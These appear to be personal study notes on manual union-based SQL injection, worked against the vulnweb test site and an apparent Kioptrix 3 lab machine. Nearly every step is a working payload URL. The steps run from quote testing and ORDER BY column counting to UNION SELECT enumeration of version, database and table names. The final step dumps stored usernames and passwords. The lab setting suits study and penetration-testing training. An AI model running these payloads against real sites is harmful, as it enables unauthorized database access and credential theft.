 # SQL Injection (SQLi)

`There are many types of injection vulnerabilities possible within web applications, such as HTTP injection, code injection, and command injection. The most common example, however, is SQL injection. A SQL injection occurs when a malicious user attempts to pass input that changes the final SQL query sent by the web application to the database, enabling the user to perform other unintended SQL queries directly against the database.

There are many ways to accomplish this. To get a SQL injection to work, the attacker must first inject SQL code and then subvert the web application logic by changing the original query or executing a completely new one. First of all, the attacker has to inject code outside the expected user input limits, so it does not get executed as simple user input. In the most basic case, this is done by injecting a single quote (') or a double quote (") to escape the limits of user input and inject data directly into the SQL query.

Once an attacker can inject, they have to look for a way to execute a different SQL query. This can be done using SQL code to make up a working query that executes both the intended and the new SQL queries. There are many ways to achieve this, like using stacked queries or using Union queries.

Finally, to retrieve our new query's output, we have to interpret it or capture it on the front end of the web application`
___

### First step :
_we can try to check if there is a SQLI with adding '_
If the page remains in same page or showing that page not found or showing some other webpages. Then it is not vulnerable.
If it showing any errors which is related to sql query,then it is vulnerable
for eg:
![[Pasted image 20211206181830.png]]

### Step two :
_Finding out the number of columns_
Now we know that the web is vulnerable next step is to find out the number of columns in the table we can do that by using order by query 
https://testphp.vulnweb.com/listproducts.php?cat=1 order by n
replace n with numbers you want or you can use them together by adding , between the numbers 
https://testphp.vulnweb.com/listproducts.php?cat=1 order by n,n,n,n,n,,n,n
for eg.
https://testphp.vulnweb.com/listproducts.php?cat=1%20order%20by%202
https://testphp.vulnweb.com/listproducts.php?cat=1%20order%20by%203
https://testphp.vulnweb.com/listproducts.php?cat=1%20order%20by%201,2,3,4,5,6
and sometimes it might not work and wee need to add "--" at the end of the query 
https://testphp.vulnweb.com/listproducts.php?cat=1%20order%20by%201,2,3,4,5,6--
we can keep raising the number up till we get an error that means that column doesn't exist and we 
![[Pasted image 20211206182930.png]]

### Step Three :
_Checking for the vulnerable column_
Using “union select columns_sequence” we can find the vulnerable part of the table. Replace the “order by n” with this statement. And change the id value to negative(i mean id=-2,must change,but in some website may work without changing).

if the number of columns is 6 we can do the query like this : 
http://kioptrix3.com/gallery/gallery.php?id=-2%20union%20select%201,2,3,4,5,6--
![[Pasted image 20211206183809.png]]
or if it didn't work we can try 
http://kioptrix3.com/gallery/gallery.php?id=-2%20and%201=1%20union%20select%201,2,3,4,5,6--
it will show some numbers on the page let's take one of them and test on it 
![[Pasted image 20211206183958.png]]
let's try 3 
### Step Four :
_Enumerating the version tables database users etc._
now in the url we can change the number 3 to a SQL command 
http://kioptrix3.com/gallery/gallery.php?id=-2%20and%201=2%20union%20select%201,2,version(),4,5,6--
![[Pasted image 20211206184144.png]]
and it works! 
now we can take this further and extract more info from the system 
we can use database() 
![[Pasted image 20211206184310.png]]

or user()
![[Pasted image 20211206184328.png]]

if the above examples didn't work we can use hex and unhex 
http://kioptrix3.com/gallery/gallery.php?id=-2%20and%201=2%20union%20select%201,2,unhex(hex(@@version)),4,5,6
![[Pasted image 20211206184440.png]]

### Step Five :
_Getting Table name_
in this step we can use group_concat(table_name) from information_schema.tables where table_schema=database() to get the table name 

![[Pasted image 20211206184647.png]]

now we have table names on the database

`if the version is 4 or some others, you have to guess the table names. (user, tbluser).  It is hard and bore to do sql inection with version 4.`

### Step Six :
_Finding Column name_
Now we replace the “group_concat(table_name) with the “group_concat(column_name)”
and 
Replace the “from information_schema.tables where table_schema=database()–” with “FROM information_schema.columns WHERE table_name=SQLCHARS–
now what we should do is convert the table name into a SQLCHARS 
we can do that in : http://www.waraxe.us/sql-char-encoder.html
now we want to get columns inside gallarific_users table so converting gallarific_users into sqlchars we get 0x67616c6c6172696669635f7573657273
adding that to our url 

http://kioptrix3.com/gallery/gallery.php?id=-2%20and%201=2%20union%20select%201,2,group_concat(column_name),4,5,6%20from%20information_schema.columns%20where%20table_name=0x67616c6c6172696669635f7573657273

![[Pasted image 20211206190118.png]]

now we have all the columns inside gallarific_users

### Step Seven :
_Dumping the database columns values_

Now we replace the replace group_concat(column_name) with group_concat(columnname,0x3a,anothercolumnname).
columnname should be replaced with what column name we want to get 
and anothercolumnname should be replaced with what other column we also want to see 
Now we  replace the ” from information_schema.columns where table_name= 0x67616c6c6172696669635f7573657273” with the “from table_name”
http://kioptrix3.com/gallery/gallery.php?id=-2%20union%20select%201,2,group_concat(username,0x3a,password),4,5,6%20from%20gallarific_users--
![[Pasted image 20211206190710.png]]
and Voila! 
we have the users and passwords from the table users